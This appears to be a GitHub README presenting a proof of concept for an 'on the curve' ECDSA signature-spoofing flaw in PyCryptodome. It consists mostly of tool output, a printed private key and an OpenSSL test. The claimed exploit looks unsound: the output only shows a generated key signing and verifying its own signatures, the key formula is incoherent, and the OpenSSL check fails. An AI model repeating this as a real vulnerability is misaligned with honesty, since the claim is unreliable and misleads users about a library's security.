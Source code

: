 # ECC On The Curve Vulnerability

## Exploiting ECDSA Signatures

### Issue:

ECDSA signatures will improperly validate spoofed keys with forced public keys. In this proof-of-concept ECDSA keys are generated with ```length = len(x+y) ``` and ```d = random(length)-(x+y)``` to exploit PyCryptodomes ECDSA implementations.

- https://github.com/Legrandin/pycryptodome/blob/master/lib/Crypto/Signature/DSS.py
- https://www.rfc-editor.org/rfc/rfc6979
- https://csrc.nist.gov/csrc/media/publications/fips/186/3/archive/2009-06-25/documents/fips_186-3.pdf


### Proof of Concept:

```
 python .\ECCTool.py
X: 4105375390653649233713119777321734233266869078187987018407577420645365974521940631581724628993333063239514030334497
Y: 27675056301647551922849568396717635354139598802203471838229080227718009101673931134993105203564358052385576850782585
D: 27362011191244522599400977620412273256865510408751044570755755486992953037333842464164901064989290490254223630055135
------------------------------------------------------------------------------
Spoofed X: 4105375390653649233713119777321734233266869078187987018407577420645365974521940631581724628993333063239514030334497
X matches
Spoofed Y: 27675056301647551922849568396717635354139598802203471838229080227718009101673931134993105203564358052385576850782585
Y matches
------------------------------------------------------------------------------
Exporting Key
-----BEGIN PRIVATE KEY-----
MIG2AgEAMBAGByqGSM49AgEGBSuBBAAiBIGeMIGbAgEBBDCxxkp6uxcwPfu7QYSd
qjki7PEfmzP/jlBgZHLuOWGbzzVwLQN1OHwZzGNJpOiCtt+hZANiAAQarFRaqflo
I+d61SRvU8Za2EurxtW20eZzca7dnNYMYf3boIkDuAUU7FfO7l0/4iGzzvfUinng
o4N+LZfQYcTxmdwlkWOrfzCjtHDix6EznPO/LlxTsV+zfTJ/ijTjeXk=
-----END PRIVATE KEY-----
------------------------------------------------------------------------------
Testing deterministic-rfc6979 signature
Signature: b'06MvLMpqCepsI43/rUKaQDatG1q7ch+6jT1cpairfqIJNyNtHgCniD01Z6DWCZyjl5o4XX8YIQLZ1gJvz54FRQpt0SuJ2jGuJRzwy80tpJz1UjEpIEAB8q61tFM9WMF0'
deterministic-rfc6979 signature generated
deterministic-rfc6979 signature is validated!
Successful exploitation of on the curve vulnerability!
------------------------------------------------------------------------------
Testing FIPS-186-3 signature
Signature generated
Signature: b'yKQZ+itxNbdgbYMHZ9B0dHYxLtX00qNrmy0xGcwi1ODbEmk344wiQAFGq5mDy3hlD9UyWyy8vb1rQrjPvZKBgMbisnmYSHtZRr0fnGLJW11hFIcd1Cd73D26YWjLOdlo'
FIPS-186-3 signature is validated!
Successful exploitation of on the curve vulnerability!
------------------------------------------------------------------------------
Results for 'On the Curve Vulnerability':
RFC 6979: True
FIPS-186-3: True
```
### Testing against OpenSSL

```
OpenSSL> dgst -sha256 -sign key.pem -out signature.sign id.db
OpenSSL> dgst -sha256 -prverify key.pem -signature signature.sign id.db
Verification Failure
error in dgst
OpenSSL> pkey -in key.pem
-----BEGIN PRIVATE KEY-----
MIG2AgEAMBAGByqGSM49AgEGBSuBBAAiBIGeMIGbAgEBBDCxxkp6uxcwPfu7QYSd
qjki7PEfmzP/jlBgZHLuOWGbzzVwLQN1OHwZzGNJpOiCtt+hZANiAAQarFRaqflo
I+d61SRvU8Za2EurxtW20eZzca7dnNYMYf3boIkDuAUU7FfO7l0/4iGzzvfUinng
o4N+LZfQYcTxmdwlkWOrfzCjtHDix6EznPO/LlxTsV+zfTJ/ijTjeXk=
-----END PRIVATE KEY-----
```
